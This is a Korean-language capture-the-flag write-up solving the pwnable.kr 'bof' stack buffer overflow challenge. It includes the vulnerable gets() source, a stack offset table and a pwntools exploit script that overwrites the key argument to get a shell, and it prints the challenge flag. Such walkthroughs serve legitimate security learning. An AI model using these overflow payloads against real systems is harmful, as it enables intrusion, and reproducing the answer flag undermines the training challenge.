

# [pwnable] BOF

## 1. Intro

문제 링크: <https://pwnable.kr/play/3>

## 2. Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme); // 크기 제한 없이 입력을 받는 취약한 함수
	
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh"); // key가 변조되면 쉘을 획득
	} else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef); // 덮어씌울 곳
	return 0;
}
```

• char 배열 `overflowme` 의 크기는 32바이트로 선언되어 있습니다.
• `gets()` 함수: 입력 크기 제한이 없음 → 그 이상의 데이터를 밀어 넣을 수 있습니다.
• 덮어써야 할 목표: `func()` 함수의 인자인 `key` 영역입니다.

## 3. 스택 구조 및 오프셋(Offset) 계산



| 위치              |       EBP 기준 | 버퍼 시작 기준 거리 |
| --------------- | -----------: | ----------: |
| `overflowme` 시작 | `EBP - 0x2c` |        0바이트 |
| 저장된 EBP         |        `EBP` |       44바이트 |
| 반환 주소           |    `EBP + 4` |       48바이트 |
| `key`           |    `EBP + 8` |   **52바이트** |

GDB로 바이너리를 분석해 보면 overflowme 버퍼의 시작 주소와 key 변수가 위치한 주소 사이의 거리를 구할 수 있습니다.
• `overflowme` 주소: ebp - 0x2c (10진수로 44바이트 지점)
• `key` 주소: ebp + 0x8
따라서 두 지점 사이의 거리는 0x8 - (-0x2c) = 0x34, 즉 52바이트가 됩니다.
• exploit 시나리오: 무의미한 더미 데이터(Dummy) 52바이트를 채운 뒤, 그 바로 뒤이어 0xcafebabe 값을 리틀 엔디언 형식으로 붙여서 전송합니다.

## 4. Payload

Pwntools를 이용한 exploit 코드

```python
from pwn import *

# 1. 원격 문제 서버 연결 (서버 주소와 포트 입력)
p = remote("pwnable.kr", <port_number>)

# 2. 페이로드(공격 데이터) 구성
# 더미 데이터 52바이트 + 변조할 값 (0xcafebabe)
# p32() 함수는 32비트 정수를 리틀 엔디언 바이트 스트림(\xbe\xba\xfe\xca)으로 변환해줍니다.
payload = b"A" * (0x2c + 0xc - 4) + p32(0xcafebabe)

# 3. 데이터 전송 및 인터랙티브 모드 전환
# gets() 함수는 줄바꿈(\n)을 기준으로 입력을 끝내므로 sendline을 사용합니다.
p.sendline(payload)

# 쉘이 열리면 사용자가 직접 명령어를 입력할 수 있도록 연결을 유지합니다.
p.interactive()
```

4. 공격 성공 후 실행

위 스크립트를 실행하여 인터랙티브($) 상태로 전환되면 flag를 읽어올 수 있습니다.

```bash
$ ls
bof
bof.c
flag
$ cat flag
daddy, I just pwned a buFFer :)
```

## 출처

[Github Pages: Pwnable.kr - bof](https://deidar3.github.io/#pwnablekr-bof)
[Tistory: pwnable.kr 3번 bof : pwntools로 자동으로 브포 때리면서 풀기](https://nogadaworks.tistory.com/142)
[Github Pages: Pwnable.kr - bof](https://n1ght-w0lf.github.io/binary%20exploitation/bof/)
https://0secusik0.tistory.com/8
https://kortsec1n4mationm.tistory.com/85
https://medium.com/@codingkarma/buffer-overflow-using-pwntools-pwnable-kr-1ac19dcb7240
https://saenozu.tistory.com/m/32
https://kortsec1n4mationm.tistory.com/85
https://medium.com/@0xAckerMan/pwnable-kr-bof-walkthrough-a8bc6d1f1d11
https://0xrick.github.io/pwn/bof/
